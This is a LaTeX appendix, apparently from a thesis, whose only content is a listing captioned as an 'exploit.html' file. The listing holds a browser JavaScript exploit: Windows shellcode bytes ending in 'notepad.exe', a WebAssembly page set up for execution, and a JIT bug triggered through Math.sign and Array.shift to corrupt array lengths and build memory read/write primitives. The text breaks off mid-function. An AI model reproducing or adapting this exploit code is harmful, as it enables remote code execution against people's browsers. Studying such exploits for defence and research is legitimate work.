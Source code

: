 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
		0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
		0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
		0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
		0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
		0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
		0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
		0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
		0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
		0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
		0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
		0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
		0x65, 0x00];
		var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
		0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
		130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
		0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
		6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
		0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
		97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
		132, 128, 128, 128, 0, 0, 65, 42, 11]);
		var wasmModule = new WebAssembly.Module(wasmCode);
		var wasmInstance = new WebAssembly.Instance(wasmModule);
		var main = wasmInstance.exports.main;
		var bf = new ArrayBuffer(8);
		var bfView = new DataView(bf);
		function fLow(f) {
			bfView.setFloat64(0, f, true);
			return (bfView.getUint32(0, true));
		}
		function fHi(f) {
			bfView.setFloat64(0, f, true);
			return (bfView.getUint32(4, true))
		}
		function i2f(low, hi) {
			bfView.setUint32(0, low, true);
			bfView.setUint32(4, hi, true);
			return bfView.getFloat64(0, true);
		}
		function f2big(f) {
			bfView.setFloat64(0, f, true);
			return bfView.getBigUint64(0, true);
		}
		function big2f(b) {
			bfView.setBigUint64(0, b, true);
			return bfView.getFloat64(0, true);
		}
		class LeakArrayBuffer extends ArrayBuffer {
			constructor(size) {
				super(size);
				this.slot = 0xb33f;
			}
		}
		function foo(a) {
			let x = -1;
			if (a) x = 0xFFFFFFFF;
			var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
			arr.shift();
			let local_arr = Array(2);
			local_arr[0] = 5.1;//4014666666666666
			let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
			arr[0] = 0x1122;
			return [arr, local_arr, buff];
		}
		for (var i = 0; i < 0x10000; ++i)
			foo(false);
		gc(); gc();
		[corrput_arr, rwarr, corrupt_buff] = foo(true);
		corrput_arr[12] = 0x22444;
		delete corrput_arr;
		function setbackingStore(hi, low) {
			rwarr[4] = i2f(fLow(rwarr[4]), hi);
			rwarr[5] = i2f(low, fHi(rwarr[5]));
		}
		function leakObjLow(o) {
			corrupt_buff.slot = o;

\end{lstlisting}
\end{appendices}
\end{document}
